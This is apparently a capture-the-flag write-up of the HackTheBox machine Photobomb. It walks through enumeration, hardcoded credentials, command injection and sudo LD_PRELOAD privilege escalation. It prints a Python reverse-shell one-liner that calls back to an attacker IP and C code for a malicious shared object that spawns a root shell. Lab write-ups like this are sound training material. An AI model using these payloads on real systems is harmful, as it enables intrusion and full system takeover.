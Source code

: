 ```yaml
---
title: Photobomb HackTheBox Writeup
tags: [hackthebox,find,linux,ld_preload,setenv,command-injection,sinatra]
style: border
color: success
description: ""
---
```


 [![](https://blogger.googleusercontent.com/img/a/AVvXsEjrdlB4DYQ2__-_3TeiMeRSuqI7VGlqGfxroswbtOdvCxU3kdFzsotu0N7W-4JTtz8B6Q4W6uv8P6ouLUBGJuJI9S1EsKGmWU0H-dJxT5PomMPPXTFysCIRRC_RbDq-XLuFai228WGxUOHFZf197nzE98Qd2-cgQ4seRP8JnuM-P_00Qpj5txsucbUxzQ=w640-h485)](https://blogger.googleusercontent.com/img/a/AVvXsEjrdlB4DYQ2__-_3TeiMeRSuqI7VGlqGfxroswbtOdvCxU3kdFzsotu0N7W-4JTtz8B6Q4W6uv8P6ouLUBGJuJI9S1EsKGmWU0H-dJxT5PomMPPXTFysCIRRC_RbDq-XLuFai228WGxUOHFZf197nzE98Qd2-cgQ4seRP8JnuM-P_00Qpj5txsucbUxzQ)

  

Scanning
========

We launch **nmap** tool with scripts and versions on all ports.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEg-Jnb7qaky0s8DG9KNWgj4EKtPPzwU-sLKVDD2mgF4Qj6tmchIZI2X4tn6T-7YbuYKk6vbhaXAvhZSIgqhMW2pJtnwnlqJuVtG05os6ZFG-Xcbc-RpEYFX0YR5naQZZ4j8AfQdhBi6XQLb5Sope4Hov6rWXOcZhTN_ZgxcfpNmao4eU85l-dlo7Xwmmg=w640-h200)](https://blogger.googleusercontent.com/img/a/AVvXsEg-Jnb7qaky0s8DG9KNWgj4EKtPPzwU-sLKVDD2mgF4Qj6tmchIZI2X4tn6T-7YbuYKk6vbhaXAvhZSIgqhMW2pJtnwnlqJuVtG05os6ZFG-Xcbc-RpEYFX0YR5naQZZ4j8AfQdhBi6XQLb5Sope4Hov6rWXOcZhTN_ZgxcfpNmao4eU85l-dlo7Xwmmg)

  
We see that nmap shows us the domain "_photobomb.htb_", so we include it in our _"/etc/hosts_" file.

  

Enumeration
===========

We access the website:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjc-AHBoey4mJBe0644pDCurv7hmz_E9fm_KL8T8gGBjBG79LvrBNZ3-9kHuhd0HYtpcAkLECzpNTqPw60Zc0TNPng9UPH6UCVyy8yrQ35KGZ_pJRhBbNfmz3smdl61lFzPoXOP72dhPJxmjZgrIPAL_aSUUvZR59qK4TVy_kediDY__CwJFQXUzQ66bA=w603-h640)](https://blogger.googleusercontent.com/img/a/AVvXsEjc-AHBoey4mJBe0644pDCurv7hmz_E9fm_KL8T8gGBjBG79LvrBNZ3-9kHuhd0HYtpcAkLECzpNTqPw60Zc0TNPng9UPH6UCVyy8yrQ35KGZ_pJRhBbNfmz3smdl61lFzPoXOP72dhPJxmjZgrIPAL_aSUUvZR59qK4TVy_kediDY__CwJFQXUzQ66bA)

  
If we try to access the link, we are asked for access credentials:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEilOeSKpvdBvT-kBRYbLVF14tH0jsrGK6MgkC3VFwwiZbQZ-1KPR9QM2PQ8jYX3nAmJelow2iI1drtSSNCwSkO5zehdLjN6noeD3Nr8DNh6Pqx3_e_Nuv3MFdTJiOcL5SZhn3mrzDK8vINdgFoM6Xa7uLmb_QiVz8MmPliWziex1_VBkfJMjrpSmKe84A=w640-h418)](https://blogger.googleusercontent.com/img/a/AVvXsEilOeSKpvdBvT-kBRYbLVF14tH0jsrGK6MgkC3VFwwiZbQZ-1KPR9QM2PQ8jYX3nAmJelow2iI1drtSSNCwSkO5zehdLjN6noeD3Nr8DNh6Pqx3_e_Nuv3MFdTJiOcL5SZhn3mrzDK8vINdgFoM6Xa7uLmb_QiVz8MmPliWziex1_VBkfJMjrpSmKe84A)

We review the source code, find the file "_photobomb.js_" and inside it some hardcoded credentials:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhs1QQN9c9gJ4TQkrVr-m1FmG4MR9iMoJTQquNVXzPoHvGKYY4BE7qFXfZAx6b3pRo2M1yS4RQ4SgLle117Wz8LXa2W7_ID4tszxPYqv4eNPrdXkKadEeTe4WuY1C2S2IQmavbcjGMe0OCz4YRvr2UIlnTKRSbJTjVK_GBfprurI0ni6ZKhExuwGnL4Mg=w640-h142)](https://blogger.googleusercontent.com/img/a/AVvXsEhs1QQN9c9gJ4TQkrVr-m1FmG4MR9iMoJTQquNVXzPoHvGKYY4BE7qFXfZAx6b3pRo2M1yS4RQ4SgLle117Wz8LXa2W7_ID4tszxPYqv4eNPrdXkKadEeTe4WuY1C2S2IQmavbcjGMe0OCz4YRvr2UIlnTKRSbJTjVK_GBfprurI0ni6ZKhExuwGnL4Mg)

  
We enter the credentials, see that they work and it takes us to a kind of image gallery.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEg7HQGxyIDesOC-tyb-VAqd7ZEDfVwMbKL9daXS5ZsVFt815HVuygv1fnOVa1MQ9MSbDexhX9VQHTTIiC1z1O58r1pcM9NDIuhi4ifZOZqPIN5lg3jvArAi1Ap72RyzjURzlzdXjfBogJCgWq4B0Hb13vOVyMmbO8nCI5zhHAIylvm5BaDyWoQ8tvT_yQ=w640-h551)](https://blogger.googleusercontent.com/img/a/AVvXsEg7HQGxyIDesOC-tyb-VAqd7ZEDfVwMbKL9daXS5ZsVFt815HVuygv1fnOVa1MQ9MSbDexhX9VQHTTIiC1z1O58r1pcM9NDIuhi4ifZOZqPIN5lg3jvArAi1Ap72RyzjURzlzdXjfBogJCgWq4B0Hb13vOVyMmbO8nCI5zhHAIylvm5BaDyWoQ8tvT_yQ)

  
The machine is slow, I don't know if it's like that, but fuzzing is not the best ally in this occasion, I tried to put a slash "_/printer/"_ and I saw that it returned an error where it tried to load an image in an internal port and to the directory "_\_\_sinatra\_\__":

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgU_GyIwPoO8ovAeltu4pI7Dbm4Z0uDt9kE-I--HZlZjWKJCYhzTcHdw5FoofVzs2bflk9DbTyRNULW5Xxb_XVV0T4zJfjZrdPCIG8ptl_HEV6uTVWrM67R3trt1jsCltSA5bkV1jI3_eANbvryVn7p01CwSawHfIXdo17FpjjplBr6y-8lZrAnoBWHGA=w640-h495)](https://blogger.googleusercontent.com/img/a/AVvXsEgU_GyIwPoO8ovAeltu4pI7Dbm4Z0uDt9kE-I--HZlZjWKJCYhzTcHdw5FoofVzs2bflk9DbTyRNULW5Xxb_XVV0T4zJfjZrdPCIG8ptl_HEV6uTVWrM67R3trt1jsCltSA5bkV1jI3_eANbvryVn7p01CwSawHfIXdo17FpjjplBr6y-8lZrAnoBWHGA)

  
  

Exploitation
============

From the name of the machine, I assumed that the entry point or vulnerability would have to be in the one thing it had, downloading images.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjeBiE2pkDvl-HjlyUZcNJi0pjQ0z0FsUblpr4X_71hSjmp5--2ipWWP_cTd5Kr_GJeel-4HaUDOaZP-hfVBEa1jtroe11jyC9NGGMSocdN7Q-luo4xel2bTRe0wmRpngQg5ODYw-n19LH4UDUxEu2BZCzs4hASwenF9N5D7ZE9HPZJ29KJ33ifbO38Wg=w640-h392)](https://blogger.googleusercontent.com/img/a/AVvXsEjeBiE2pkDvl-HjlyUZcNJi0pjQ0z0FsUblpr4X_71hSjmp5--2ipWWP_cTd5Kr_GJeel-4HaUDOaZP-hfVBEa1jtroe11jyC9NGGMSocdN7Q-luo4xel2bTRe0wmRpngQg5ODYw-n19LH4UDUxEu2BZCzs4hASwenF9N5D7ZE9HPZJ29KJ33ifbO38Wg)

  
As we saw before, it makes a _GET_ to download the photo, so even if we see the code, we could try to escape and execute malicious code..

### Request:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgggVq3gqlLJk6K8SiTu5BTPRImY-ypLkUhlhH2beFP5kv_JliwkSykeUC7ugHEQnd7D-AZALnzldwGYeqQ356MaxAwFLGK7cPs5MZVVoyQWVWBakVXf254FGitZgg_bWYFSIa9MTQwKWNz01AMRtRNy-MCZcVPptjVy1ruK5ozp-dwnwtNqNXcJJpMsA=w640-h282)](https://blogger.googleusercontent.com/img/a/AVvXsEgggVq3gqlLJk6K8SiTu5BTPRImY-ypLkUhlhH2beFP5kv_JliwkSykeUC7ugHEQnd7D-AZALnzldwGYeqQ356MaxAwFLGK7cPs5MZVVoyQWVWBakVXf254FGitZgg_bWYFSIa9MTQwKWNz01AMRtRNy-MCZcVPptjVy1ruK5ozp-dwnwtNqNXcJJpMsA)

  

### Command injection request:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgiekaYT-yFA64oL7k-aFHvb4c4LTWPm1wUOZ-BcWUmz7A5gJ--Tskcg4XjYnRNYI50Y6m77p41q-vceAhLlbJIPX0G7t943SX7MkNzd3UItNYcvrAb-xy7UjPx1CGr0Y26vVibHvhIUghOrhd-8s1Zt6XlE7utXc0QpgiC9rXx6a78kdXriUK7KiCCtw=w640-h288)](https://blogger.googleusercontent.com/img/a/AVvXsEgiekaYT-yFA64oL7k-aFHvb4c4LTWPm1wUOZ-BcWUmz7A5gJ--Tskcg4XjYnRNYI50Y6m77p41q-vceAhLlbJIPX0G7t943SX7MkNzd3UItNYcvrAb-xy7UjPx1CGr0Y26vVibHvhIUghOrhd-8s1Zt6XlE7utXc0QpgiC9rXx6a78kdXriUK7KiCCtw)

  

Since I was able to inject a command, I tried several reverse shells, but this was the only one that worked.

### Reverse shell:

     export RHOST="10.10.14.13";export RPORT=443;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'  
    

We gain access to the machine, enumerate the user and read the user flag:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhiGOE6XPI0ZRtt3wrPIbM3roWTXQXol6ywLJ6ZHSBHrtqjO5MM23mvRnxjn3UbHjhOW15X5IcVvWGPaX0rLH0WYNVOZFqBxXh_KfvwCBGXBrEum9MmxSwE8CAvnJ0t16sfvkAYVsBH4lO6TBCncqD2ek69vo3R5AjZLYHLJKPPbOY9Pt0Sa6eti9xFCA=w640-h380)](https://blogger.googleusercontent.com/img/a/AVvXsEhiGOE6XPI0ZRtt3wrPIbM3roWTXQXol6ywLJ6ZHSBHrtqjO5MM23mvRnxjn3UbHjhOW15X5IcVvWGPaX0rLH0WYNVOZFqBxXh_KfvwCBGXBrEum9MmxSwE8CAvnJ0t16sfvkAYVsBH4lO6TBCncqD2ek69vo3R5AjZLYHLJKPPbOY9Pt0Sa6eti9xFCA)

  
  

Privilege Escalation
====================

We do a "_sudo -l_" and list that we can run as root the script "_/opt/cleanup.sh_".

[![](https://blogger.googleusercontent.com/img/a/AVvXsEipWBWYXwDV4cjkp3nJ8PKAgBzIcawDkAbT7AuqlWUZW_aZazadRROIdhPKP-Y0jQMtrRq4wpz4yVHeRQoci2yqgUYw4w9ijwqFHJBvPinihJsNaTJXlr2zlCg5aDyesuoyUiwSvUeutwDnBfYrKf-KPYjSin2MsWrGMdKmmbeCnK5930-IExm8vGPG8A=w640-h368)](https://blogger.googleusercontent.com/img/a/AVvXsEipWBWYXwDV4cjkp3nJ8PKAgBzIcawDkAbT7AuqlWUZW_aZazadRROIdhPKP-Y0jQMtrRq4wpz4yVHeRQoci2yqgUYw4w9ijwqFHJBvPinihJsNaTJXlr2zlCg5aDyesuoyUiwSvUeutwDnBfYrKf-KPYjSin2MsWrGMdKmmbeCnK5930-IExm8vGPG8A)

  
We see that _SETENV_ does not require a password, this can be exploited with "_LD\_Preload_" by injecting it next to the script and getting it to run with the internal **find**:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEi3cJ9TxO1Yai8An9NJXdnPp8COzy1NOkhAr41gCF6gfuonQ5OZn1GkSSnskcnJZBMflmgPJlpvwMDnrwbvtB4Dn2GHCJ1Dz_U7zfn9hmwcYXZVcWcNZdsmkbsanxGAVQLliR_FR72QauJIzsDUO5Gb-NU3iUMWK6ecp4Bls5jSp6whwx8kXoMVndW7Kw=w640-h302)](https://blogger.googleusercontent.com/img/a/AVvXsEi3cJ9TxO1Yai8An9NJXdnPp8COzy1NOkhAr41gCF6gfuonQ5OZn1GkSSnskcnJZBMflmgPJlpvwMDnrwbvtB4Dn2GHCJ1Dz_U7zfn9hmwcYXZVcWcNZdsmkbsanxGAVQLliR_FR72QauJIzsDUO5Gb-NU3iUMWK6ecp4Bls5jSp6whwx8kXoMVndW7Kw)

  

### Exploit code:

     #include <stdio.h>  
     #include <sys/types.h>  
     #include <stdlib.h>  
     void _init() {  
     unsetenv("LD_PRELOAD");  
     setgid(0);  
     setuid(0);  
     system("/bin/sh");  
     }  
    

  

We download the file "_exploit.so_" in temporary and run it together with the script with **SUDO**, we see that we escalate privileges to root and read the flag.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjSJb3WKldkM5WCYVL9hLpHIc1RUSOddQNHr0Ukvhn85HMse3ncQmUv4u5aCih16E6VfmCWgWnY3s0g_0fiVajo6POVHIWPqffSDbP3P1ksQik3PJwfYtiJOObRGYVU7igVBDh0dspEHRbp6NafmQFRPcrw_j58JresNH3Nt8SBcCPtmbKGMLd6yEm3JQ=w640-h213)](https://blogger.googleusercontent.com/img/a/AVvXsEjSJb3WKldkM5WCYVL9hLpHIc1RUSOddQNHr0Ukvhn85HMse3ncQmUv4u5aCih16E6VfmCWgWnY3s0g_0fiVajo6POVHIWPqffSDbP3P1ksQik3PJwfYtiJOObRGYVU7igVBDh0dspEHRbp6NafmQFRPcrw_j58JresNH3Nt8SBcCPtmbKGMLd6yEm3JQ)
